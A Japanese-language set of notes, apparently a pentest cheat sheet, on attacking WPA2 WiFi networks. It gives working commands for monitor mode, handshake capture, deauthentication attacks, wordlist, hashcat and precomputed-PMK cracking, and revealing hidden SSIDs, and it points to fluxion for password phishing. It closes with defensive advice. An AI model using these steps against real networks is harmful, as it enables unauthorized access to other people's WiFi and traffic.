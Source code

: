 # ワイヤレス侵入

WPA2 の想定

## モード変更

WiFi アダプタには manage, monitor の 2 種類のモードがある。

```shell
# ネットワークインターフェース確認
ifconfig

# モードを確認（※デフォルトは managed）
iwconfig

# インターフェースをダウン
sudo ifconfig <interface name> down

# モニターモードに変更
sudo iwconfig <interface name> mode monitor

# インターフェースをアップ
sudo ifconfig <interface name> up

# モードを確認（※monitor に変わっていたら成功）
iwconfig
```

## WiFi アダプタが動作していないときに実行するスクリプト

```shell
sudo airmon-ng check kill
sudo ifconfig <interface name> down
sudo iwconfig <interface name> mode monitor
sudo ifconfig <interface name> up
sudo systemctl restart networking
sudo nmcli networking on
```

## 4way ハンドシェイクのキャプチャ取得

### パケットをダンプ（チャンネルとアクセスポイントの BSSID を確認）

```shell
sudo airodump-ng <interface name>
```

### パケットをダンプしてファイル出力

```shell
sudo airodump-ng -c <channel> --bbsid <BSSID> -w <filename> <interface name>
```

### 非認証攻撃でクライアントに再接続させる（再接続時の 4way ハンドシェイクをキャプチャする目的）

```shell
sudo aireplay-ng -0 0 -a <MAC> <interface name>
```

#### cap ファイルは WireShark で開ける

```shell
wireshark <filename>-01.cap
```

## aircrack-ng

### ワードリストを使ってパスワードをクラック

```shell
aircrack-ng -w /usr/share/wordlists/rockyou.txt <filename>-01.cap
```

### パイプで渡すこともできるが、マッチしても処理が止まらないため使えないと思う

```shell
crunch 12 12 -t abcdef@@@%%% | aircrack-ng -w - SCAN-01.cap
```

## hashcat

GPU を使うため、aircrack-ng より速い

### hcxtools をインストール

```shell
sudo apt install hcxtools
```

### cap を hashcat で扱える形式に変換

```shell
hcxpcapngtool -o output.22000 input.cap
```

### ワードリストを使ってパスワードをクラック

```shell
hashcat -m 22000 output.22000 wordlist.txt
```

## レインボーテーブル

計算負荷の高い PMK を事前に計算しておく手口

### レインボーテーブル作成（ESSID とパスワードの組から PMK が生成される）

PMK = PBKDF2(HMAC-SHA1, パスワード, ESSID, 4096, 256-bit)

```shell
airolib-ng <レインボーテーブル名> --import essid essid.txt
airolib-ng <レインボーテーブル名> --import passwd password.txt
airolib-ng <レインボーテーブル名> --batch
airolib-ng <レインボーテーブル名> --stats
```

### テーブル内容確認

```shell
airolib-ng <レインボーテーブル名> --sql 'select * from essid'
airolib-ng <レインボーテーブル名> --sql 'select * from passwd'
airolib-ng <レインボーテーブル名> --sql 'select * from pmk'
```

### テーブルクリア

```shell
airolib-ng <レインボーテーブル名> --clean all
```

### レインボーテーブルを使ってクラックする

PMK とナンス、MAC を使って PTK が生成される  
PTK = PRF-512(PMK + ANonce + SNonce + MAC アドレス情報)

```shell
aircrack-ng -r <レインボーテーブル名> SCAN-01.cap
```

## fluxion

インタラクティブなツール。フィッシングでユーザーにパスワードを入力させるような機能もある。

https://github.com/FluxionNetwork/fluxion

## Hidden ネットワーク

### ①HiddenNetwork は、ESSID が空欄で表示されるが、BSSID は表示される

```shell
airodump-ng <interface name>
```

### ② BSSID に接続しているクライアントを見つける

```shell
airodump-ng --bssid <BSSID> -c <channel> <interface name>
```

### ③ 特定のクライアントにだけ認証解除パケットを送る（※② は起動したまま）

```shell
aireplay-ng --deauth 5 -a <BSSID> -c <client MAC> <interface name>
```

再接続が行われると、② の表示に ESSID が表示される。あとは通常の場合と同じ。

## セキュリティ視点の結論

- WPA2 でリスト生成困難な程度に強力なパスワードを設定していれば、機械的にはクラックできない
- fluxion 等を使ったフィッシングには注意が必要（偽装ホストに誘導してパスワードを入力させる手口）
- レインボーテーブルは ESSID に対して作られるため、定期的にネットワーク名を変更するのは有効
- 逆に、パスワード変更はレインボーテーブルに対しては効果が無い可能性がある
- 隠しネットワークは、セキュリティ的な観点ではまったく無意味
